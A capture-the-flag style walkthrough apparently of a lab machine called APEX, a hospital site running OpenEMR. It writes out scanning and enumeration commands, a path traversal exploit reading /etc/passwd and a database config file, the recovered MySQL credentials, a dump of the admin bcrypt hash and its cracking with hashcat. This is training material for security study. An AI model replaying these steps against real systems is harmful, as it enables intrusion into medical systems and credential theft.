Writeup by wook413
initial Nmap scan result
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop/vpn]└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-12 02:43 UTCNmap scan report for 192.168.109.145Host is up (0.044s latency).Not shown: 65532 filtered tcp ports (no-response)Some closed ports may be reported as filtered due to --defeat-rst-ratelimitPORT STATE SERVICE80/tcp open http445/tcp open microsoft-ds3306/tcp open mysql
Nmap done: 1 IP address (1 host up) scanned in 43.88 secondsSecond Nmap scan on the discovered ports only with -sC and -sV flags.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop/vpn]└─$ nmap $IP -sC -sV -p 80,445,3306 Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-12 02:44 UTCNmap scan report for 192.168.109.145Host is up (0.045s latency).
PORT STATE SERVICE VERSION80/tcp open http Apache httpd 2.4.29 ((Ubuntu))|_http-title: APEX Hospital|_http-server-header: Apache/2.4.29 (Ubuntu)445/tcp open netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)3306/tcp open mysql MariaDB 5.5.5-10.1.48| mysql-info: | Protocol: 10| Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1| Thread ID: 32| Capabilities flags: 63487| Some Capabilities: Support41Auth, SupportsLoadDataLocal, FoundRows, SupportsTransactions, DontAllowDatabaseTableColumn, SupportsCompression, LongColumnFlag, Speaks41ProtocolOld, IgnoreSigpipes, Speaks41ProtocolNew, ODBCClient, IgnoreSpaceBeforeParenthesis, LongPassword, ConnectWithDatabase, InteractiveClient, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments| Status: Autocommit| Salt: a1lP*!e\\ztU-|PWF7~;H|_ Auth Plugin Name: mysql_native_passwordService Info: Host: APEX
Host script results:|_clock-skew: mean: 1h40m01s, deviation: 2h53m14s, median: 0s| smb2-time: | date: 2026-01-12T02:44:56|_ start_date: N/A| smb2-security-mode: | 3:1:1: |_ Message signing enabled but not required| smb-security-mode: | account_used: guest| authentication_level: user| challenge_response: supported|_ message_signing: disabled (dangerous, but default)| smb-os-discovery: | OS: Windows 6.1 (Samba 4.7.6-Ubuntu)| Computer name: apex| NetBIOS computer name: APEX\\x00| Domain name: \\x00| FQDN: apex|_ System time: 2026-01-11T21:44:55-05:00
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .Nmap done: 1 IP address (1 host up) scanned in 47.15 secondsUDP scan result
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop/vpn]└─$ nmap $IP -sU --top-ports 10 Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-12 02:46 UTCNmap scan report for 192.168.109.145Host is up (0.044s latency).
PORT STATE SERVICE53/udp open|filtered domain67/udp open|filtered dhcps123/udp open|filtered ntp135/udp open|filtered msrpc137/udp open|filtered netbios-ns138/udp open|filtered netbios-dgm161/udp open|filtered snmp445/udp closed microsoft-ds631/udp open|filtered ipp1434/udp open|filtered ms-sql-m
Nmap done: 1 IP address (1 host up) scanned in 1.68 secondsEvery time I see SMB on the nmap scan result, I like to start off by smb-enum-shares and smb-enum-users scripts.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP --script=smb-enum-shares,smb-enum-users -p 139,445 -sC -sVStarting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-12 04:53 UTCNmap scan report for 192.168.109.145Host is up (0.048s latency).
PORT STATE SERVICE VERSION139/tcp filtered netbios-ssn445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)Service Info: Host: APEX
Host script results:| smb-enum-shares: | account_used: guest| \\\\192.168.109.145\\IPC$: | Type: STYPE_IPC_HIDDEN| Comment: IPC Service (APEX server (Samba, Ubuntu))| Users: 1| Max Users: <unlimited>| Path: C:\\tmp| Anonymous access: READ/WRITE| Current user access: READ/WRITE| \\\\192.168.109.145\\docs: | Type: STYPE_DISKTREE| Comment: Documents| Users: 0| Max Users: <unlimited>| Path: C:\\var\\www\\html\\source\\Documents| Anonymous access: READ/WRITE| Current user access: READ/WRITE| \\\\192.168.109.145\\print$: | Type: STYPE_DISKTREE| Comment: Printer Drivers| Users: 0| Max Users: <unlimited>| Path: C:\\var\\lib\\samba\\printers| Anonymous access: <none>|_ Current user access: <none>
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .Nmap done: 1 IP address (1 host up) scanned in 36.89 secondsWe see a share that’s not there by default: docs
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ smbclient -N -L //$IP
Sharename Type Comment --------- ---- ------- print$ Disk Printer Drivers docs Disk Documents IPC$ IPC IPC Service (APEX server (Samba, Ubuntu))Reconnecting with SMB1 for workgroup listing.do_connect: Connection to 192.168.109.145 failed (Error NT_STATUS_IO_TIMEOUT)Unable to connect with SMB1 -- no workgroup availableInside the share, there were 2 pdf files but the contents inside them didn’t get me anywhere.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ smbclient //$IP/docs Password for [WORKGROUP\\kali]:Try "help" to get a list of possible commands.smb: \\> ls . D 0 Fri Apr 9 15:47:12 2021 .. D 0 Fri Apr 9 15:47:12 2021 OpenEMR Success Stories.pdf A 290738 Fri Apr 9 15:47:12 2021 OpenEMR Features.pdf A 490355 Fri Apr 9 15:47:12 2021For HTTP, like I did for SMB, I started off with http-enum script which revealed /filemanager and /source shares.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP --script=http-enum -sC -sV -p 80 Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-12 04:54 UTCNmap scan report for 192.168.109.145Host is up (0.047s latency).
PORT STATE SERVICE VERSION80/tcp open http Apache httpd 2.4.29 ((Ubuntu))|_http-server-header: Apache/2.4.29 (Ubuntu)| http-enum: | /filemanager/: Potentially interesting folder|_ /source/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .Nmap done: 1 IP address (1 host up) scanned in 11.20 secondsThe landing page of the website looks like below and they have 4 doctors. I took a note of their names since they might become useful for brute-forcing attack later.
Clicking on the scheduler tab, the website takes me to /openemr . I attempted a few default credentials on the login form, but they wouldn’t work.

After identifying the /openemr directory, I performed a directory brute-force attack using Gobuster, which revealed several interesting files and subdirectories.
xxxxxxxxxx┌──(venv)─(kali㉿kali)-[~/Desktop]└─$ gobuster dir -u <http://$IP/openemr> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,asp,xml,html,js,sql,gz,zip===============================================================Gobuster v3.6by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)===============================================================[+] Url: <http://192.168.109.145/openemr>[+] Method: GET[+] Threads: 10[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt[+] Negative Status codes: 404[+] User Agent: gobuster/3.6[+] Extensions: php,asp,xml,html,js,sql,gz,zip[+] Timeout: 10s===============================================================Starting gobuster in directory enumeration mode===============================================================/.php (Status: 403) [Size: 280]/.html (Status: 403) [Size: 280]/index.php (Status: 302) [Size: 0] [--> interface/login/login.php?site=default]/images (Status: 301) [Size: 327] [--> <http://192.168.109.145/openemr/images/>]/templates (Status: 301) [Size: 330] [--> <http://192.168.109.145/openemr/templates/>]/services (Status: 301) [Size: 329] [--> <http://192.168.109.145/openemr/services/>]/modules (Status: 301) [Size: 328] [--> <http://192.168.109.145/openemr/modules/>]/common (Status: 301) [Size: 327] [--> <http://192.168.109.145/openemr/common/>]/library (Status: 301) [Size: 328] [--> <http://192.168.109.145/openemr/library/>]/public (Status: 301) [Size: 327] [--> <http://192.168.109.145/openemr/public/>]/version.php (Status: 200) [Size: 0]/admin.php (Status: 200) [Size: 937]/portal (Status: 301) [Size: 327] [--> <http://192.168.109.145/openemr/portal/>]/tests (Status: 301) [Size: 326] [--> <http://192.168.109.145/openemr/tests/>]/sites (Status: 301) [Size: 326] [--> <http://192.168.109.145/openemr/sites/>]/custom (Status: 301) [Size: 327] [--> <http://192.168.109.145/openemr/custom/>]/contrib (Status: 301) [Size: 328] [--> <http://192.168.109.145/openemr/contrib/>]/interface (Status: 301) [Size: 330] [--> <http://192.168.109.145/openemr/interface/>]/vendor (Status: 301) [Size: 327] [--> <http://192.168.109.145/openemr/vendor/>]/config (Status: 301) [Size: 327] [--> <http://192.168.109.145/openemr/config/>]/setup.php (Status: 500) [Size: 0]/Documentation (Status: 301) [Size: 334] [--> <http://192.168.109.145/openemr/Documentation/>]/sql (Status: 301) [Size: 324] [--> <http://192.168.109.145/openemr/sql/>]/build.xml (Status: 200) [Size: 6102]/controller.php (Status: 200) [Size: 37]/LICENSE (Status: 200) [Size: 35147]/openemr/admin.php reveals that the actual version of installed OpenEMR is 5.0.1

However, it appeared that all of the exploits required valid credentials which I do not have at the moment.
xxxxxxxxxx┌──(venv)─(kali㉿kali)-[~/Desktop]└─$ searchsploit openemr 5.0.1-------------------------------------------------------------------------------------------------------- --------------------------------- Exploit Title | Path-------------------------------------------------------------------------------------------------------- ---------------------------------OpenEMR 5.0.1 - 'controller' Remote Code Execution | php/webapps/48623.txtOpenEMR 5.0.1 - Remote Code Execution (1) | php/webapps/48515.pyOpenEMR 5.0.1 - Remote Code Execution (Authenticated) (2) | php/webapps/49486.rbOpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated) | php/webapps/49998.pyOpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated) (2) | php/webapps/50122.rbOpenEMR 5.0.1.3 - (Authenticated) Arbitrary File Actions | linux/webapps/45202.txtOpenEMR 5.0.1.3 - Authentication Bypass | php/webapps/50017.pyOpenEMR 5.0.1.3 - Remote Code Execution (Authenticated) | php/webapps/45161.pyOpenEMR 5.0.1.7 - 'fileName' Path Traversal (Authenticated) | php/webapps/50037.pyOpenEMR 5.0.1.7 - 'fileName' Path Traversal (Authenticated) (2) | php/webapps/50087.rb-------------------------------------------------------------------------------------------------------- ---------------------------------Shellcodes: No ResultsI suspected this might be a rabbit hole so I circled back to gobuster and performed directory brute forcing on the root path / .
xxxxxxxxxx┌──(venv)─(kali㉿kali)-[~/Desktop]└─$ gobuster dir -u <http://$IP> -w /usr/share/seclists/Discovery/Web-Content/common.txt ===============================================================Gobuster v3.6by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)===============================================================[+] Url: <http://192.168.109.145>[+] Method: GET[+] Threads: 10[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/common.txt[+] Negative Status codes: 404[+] User Agent: gobuster/3.6[+] Timeout: 10s===============================================================Starting gobuster in directory enumeration mode===============================================================/.htaccess (Status: 403) [Size: 280]/.hta (Status: 403) [Size: 280]/.htpasswd (Status: 403) [Size: 280]/assets (Status: 301) [Size: 319] [--> <http://192.168.109.145/assets/>]/filemanager (Status: 301) [Size: 324] [--> <http://192.168.109.145/filemanager/>]/index.html (Status: 200) [Size: 28957]/server-status (Status: 403) [Size: 280]/source (Status: 301) [Size: 319] [--> <http://192.168.109.145/source/>]/thumbs (Status: 301) [Size: 319] [--> <http://192.168.109.145/thumbs/>]Progress: 4746 / 4747 (99.98%)===============================================================Finished===============================================================In /filemanager , there were two shares: Images and Documents.

I attempted to upload a reverse shell payload file but the server appears to be blocking .php file extension.

But accepting .pdf

I discovered the version of the filemanager: v.9.13.4

Serachsploit was able to locate and return some known vulnerabilities to the version.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ searchsploit responsive filemanager 9.13.4-------------------------------------------------------------------------------------------------------- --------------------------------- Exploit Title | Path-------------------------------------------------------------------------------------------------------- ---------------------------------Responsive FileManager 9.13.4 - 'path' Path Traversal | php/webapps/49359.pyResponsive FileManager 9.13.4 - Multiple Vulnerabilities | php/webapps/45987.txtResponsive FileManager < 9.13.4 - Directory Traversal | php/webapps/45271.txt-------------------------------------------------------------------------------------------------------- ---------------------------------Shellcodes: No ResultsLooks like the exploit is working properly.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ python3 49359.py <http://$IP> PHPSESSID=q89eh8gadjf1f4mf8b01bdinql /etc/passwd[*] Copy Clipboard[*] Paste Clipboardroot:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologinnews:x:9:9:news:/var/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologinproxy:x:13:13:proxy:/bin:/usr/sbin/nologinwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:backup:/var/backups:/usr/sbin/nologinlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologingnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologinnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologinsystemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologinsystemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologinsyslog:x:102:106::/home/syslog:/usr/sbin/nologinmessagebus:x:103:107::/nonexistent:/usr/sbin/nologin_apt:x:104:65534::/nonexistent:/usr/sbin/nologinlxd:x:105:65534::/var/lib/lxd/:/bin/falseuuidd:x:106:110::/run/uuidd:/usr/sbin/nologindnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologinlandscape:x:108:112::/var/lib/landscape:/usr/sbin/nologinsshd:x:109:65534::/run/sshd:/usr/sbin/nologinpollinate:x:110:1::/var/cache/pollinate:/bin/falsemysql:x:111:115:MySQL Server,,,:/nonexistent:/bin/falsewhite:x:1000:1000::/home/white:/bin/shI attempted to read /openemr/sites/default/sqlconf.php but it didn’t work. I suspect it might be the .php file extension that the exploit can’t read.

Inside the code, I made a few small edits so our exploit can read .php files. If the file manager still doesn’t show the file, I’m going to visit the SMB share because we know the SMB share and the Documents folder in filemanager are sharing the same environment.

xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ python3 49359.py <http://$IP> PHPSESSID=q89eh8gadjf1f4mf8b01bdinql /var/www/openemr/sites/default/sqlconf.php [*] Copy Clipboard[*] Paste Clipboard<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN"><html><head><title>404 Not Found</title></head><body><h1>Not Found</h1><p>The requested URL was not found on this server.</p><hr><address>Apache/2.4.29 (Ubuntu) Server at 192.168.109.145 Port 80</address></body></html>The server is saying there are 4 files when I only see 3. Can it be sqlconf.php ? It’s there but just not showing up?

I visited /docs and confirmed that sqlconf.php file is actually present.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ smbclient //$IP/docsPassword for [WORKGROUP\\kali]:Try "help" to get a list of possible commands.smb: \\> ls . D 0 Mon Jan 12 05:00:18 2026 .. D 0 Mon Jan 12 04:46:19 2026 passwd N 1607 Mon Jan 12 05:00:18 2026 sqlconf.php N 639 Mon Jan 12 05:01:04 2026 OpenEMR Success Stories.pdf A 290738 Fri Apr 9 15:47:12 2021 OpenEMR Features.pdf A 490355 Fri Apr 9 15:47:12 2021
16446332 blocks of size 1024. 9174816 blocks availablesmb: \\> I obtained what appears to be the credentials of the MySQL DB.
xxxxxxxxxx<?php// OpenEMR// MySQL Config
$host = 'localhost';$port = '3306';$login = 'openemr';$pass = 'C78maEQUIEuQ';$dbase = 'openemr';
//Added ability to disable//utf8 encoding - bm 05-2009global $disable_utf8_flag;$disable_utf8_flag = false;
$sqlconf = array();global $sqlconf;$sqlconf["host"]= $host;$sqlconf["port"] = $port;$sqlconf["login"] = $login;$sqlconf["pass"] = $pass;$sqlconf["dbase"] = $dbase;////////////////////////////////////////////////////////////////////////////////////DO NOT TOUCH THIS///$config = 1; ///////////////////////////////////////////////////////////////////////////////////////////?>I was able to authenticate to the database server using the credentials.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ mysql -h $IP -u openemr -p'C78maEQUIEuQ' --skip-sslWelcome to the MariaDB monitor. Commands end with ; or \\g.Your MariaDB connection id is 268Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
Type 'help;' or '\\h' for help. Type '\\c' to clear the current input statement.
MariaDB [(none)]> openemer database is available.
xxxxxxxxxxMariaDB [(none)]> show databases; +--------------------+ | Database | +--------------------+ | information_schema | | openemr | +--------------------+ 2 rows in set (0.050 sec) MariaDB [(none)]> use openemr; Reading table information for completion of table and column names You can turn off this feature to get a quicker startup with -A Database changed MariaDB [openemr]> show tables; +---------------------------------------+ | Tables_in_openemr | +---------------------------------------+ | addresses | | amc_misc_data | | amendments | | amendments_history | | ar_activity | | ar_session | | array | | audit_details | | audit_master | ...... Also secure_file_priv variable is empty, meaning we can try writing files as the last resort if we can’t find anything in the database.
xxxxxxxxxxMariaDB [openemr]> show variables like "secure_file_priv";+------------------+-------+| Variable_name | Value |+------------------+-------+| secure_file_priv | |+------------------+-------+1 row in set (0.047 sec)I found admin user and its hashed password in the users_secure table.
xxxxxxxxxxMariaDB [openemr]> select * from users_secure;+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+| id | username | password | salt | last_update | password_history1 | salt_history1 | password_history2 | salt_history2 |+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+| 1 | admin | $2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC | $2a$05$bJcIfCBjN5Fuh0K9qfoe0n$ | 2021-05-17 10:56:27 | NULL | NULL | NULL | NULL |+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+1 row in set (0.046 sec)Successfully cracked the hash.
xxxxxxxxxx$2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC:thedoctor Session..........: hashcatStatus...........: CrackedHash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))Hash.Target......: $2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMA...kK8XnCTime.Started.....: Mon Jan 12 05:17:01 2026 (17 secs)Time.Estimated...: Mon Jan 12 05:17:18 2026 (0 secs)Kernel.Feature...: Pure KernelGuess.Base.......: File (/usr/share/wordlists/rockyou.txt)Guess.Queue......: 1/1 (100.00%)Speed.#1.........: 2464 H/s (5.98ms) @ Accel:4 Loops:32 Thr:1 Vec:1Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)Progress.........: 43600/14344385 (0.30%)Rejected.........: 0/43600 (0.00%)Restore.Point....: 43584/14344385 (0.30%)Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-32Candidate.Engine.: Device GeneratorCandidates.#1....: tigger20 -> taytay2Hardware.Mon.#1..: Util: 93%
Started: Mon Jan 12 05:16:56 2026Stopped: Mon Jan 12 05:17:20 2026With the username and cleartext password, I finally was able to authenticate to openemr .
